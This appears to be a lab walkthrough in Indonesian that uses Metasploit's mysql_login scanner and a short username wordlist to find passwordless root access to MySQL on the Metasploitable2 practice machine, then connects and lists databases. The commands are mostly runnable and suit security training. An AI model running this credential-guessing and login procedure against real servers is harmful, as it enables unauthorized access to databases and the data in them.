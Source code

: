 # Exploit Port 3306 (MySQL)
- Buat file dengan nano yang berisi daftar user untuk uji coba
```sh
nano user-metasploitable2.txt
```

- Isi file tersebut dengan daftar user sebagai berikut. Kemudian tekan `Ctrl+o` lalu `enter` untuk menyimpan
```sh
root
admin
msfadmin
administrator
guest
user
test
postgres
oracle
```

- Buka msfconsole di terminal
```sh
msfconsole
```

- Cari modul untuk exploit MySQL
```sh
search mysql scanner
```

- Gunakan modul `auxiliary/scanner/mysql/mysql_login` yang berada di nomor urut 5 dari hasil pencarian
```sh
use <nomor_modul>
```


- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```


- Isi parameter yang dibutuhkan di modul tersebut
```sh
set rhosts <IP_metasploitable2>
set user_file /home/kali/user-metasploitable2.txt
```


- Setelah pengisian parameter selesai jalankan modul tersebut. Disini didapat akses ke MySQL tanpa password dengan menggunakan user `root`
```sh
exploit
```

- Lakukan uji coba koneksi ke MySQL dengan user `root`. Ternyata disini kita berhasil masuk tanpa dimintai password
```sh
mysql -u root -h <IP_metasploitable2>
```

- Lihat semua database yang terdapat di MySQL Server
```sh
show databases;
```